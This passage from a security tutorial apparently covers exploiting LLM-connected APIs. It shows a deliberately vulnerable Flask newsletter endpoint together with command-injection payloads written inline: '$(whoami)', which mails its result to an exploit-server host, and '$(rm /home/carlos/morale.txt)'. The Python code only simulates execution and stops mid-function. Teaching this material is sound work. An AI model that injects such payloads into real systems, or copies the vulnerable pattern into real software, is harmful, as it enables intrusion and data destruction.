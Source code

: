 To mitigate these vulnerabilities, it’s crucial to implement proper input validation and parameterized queries to prevent SQL injection attacks. Additionally, access controls should be enforced to restrict access to sensitive APIs and functionality. Regular security assessments and code reviews can also help identify and address security flaws in web applications.

## Exploiting vulnerabilities in LLM APIs

Python code sets up a vulnerable web application using Flask, which exposes an endpoint `/newsletter-subscription` vulnerable to command injection. This endpoint simulates the behavior of a Newsletter Subscription API within the context of the described scenario.

Here’s a breakdown of the vulnerable code and its exploitation:

1. **Flask Setup**: The code initializes a Flask application.
2. **Newsletter Subscription Endpoint**: The vulnerable endpoint `/newsletter-subscription` accepts POST requests and extracts the email address from the request form data.
3. **Command Injection Vulnerability**: The code checks if the email address contains certain patterns (`$(whoami)` or `$(rm` ) indicative of command injection attempts. If such patterns are found, it executes the corresponding command.
4. **Command Execution**:
    - If the email address contains `$(whoami)`, the code extracts the command before `$(whoami)`, simulates its execution (e.g., by returning a fixed value `'carlos'`), and sends an email to the result concatenated with `@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
    - If the email address contains `$(rm` , the code extracts the file path from the command, checks if it matches `/home/carlos/morale.txt`, and simulates file deletion (e.g., by printing a message).
5. **Normal Subscription**: If the email address does not contain any suspicious patterns, the code simulates sending a subscription confirmation email.

An attacker can exploit this vulnerability by sending crafted email addresses containing the command injection payloads (`$(whoami)` or `$(rm /home/carlos/morale.txt)`) to the `/newsletter-subscription` endpoint.

```
from flask import Flask, request, jsonify

app = Flask(__name__)

# Function to subscribe to newsletter (vulnerable to command injection)
@app.route('/newsletter-subscription', methods=['POST'])
def newsletter_subscription():
    email = request.form.get('email')

    # Simulate LLM behavior
    if '$(whoami)' in email:
        # Execute command and send email to result
        command = email.split('$(whoami)')[0]
        result = execute_command(command)
        send_email(result + '@YOUR-EXPLOIT-SERVER-ID.exploit-server.net')
        return jsonify({'response': 'Command executed successfully'})
    elif '$(rm ' in email:
        # Execute command to delete file
        command = email.split('$(rm ')[1].split(')')[0]
        if command == '/home/carlos/morale.txt':
            delete_file(command)
            return jsonify({'response': 'File deleted successfully'})
        else:
            return jsonify({'response': 'Invalid file path'})
    else:
        # Subscribe to newsletter normally
        send_email(email)
        return jsonify({'response': 'Subscribed to newsletter'})

# Function to execute system command
def execute_command(command):
    # Simulate execution of system command (replace with actual execution)
```
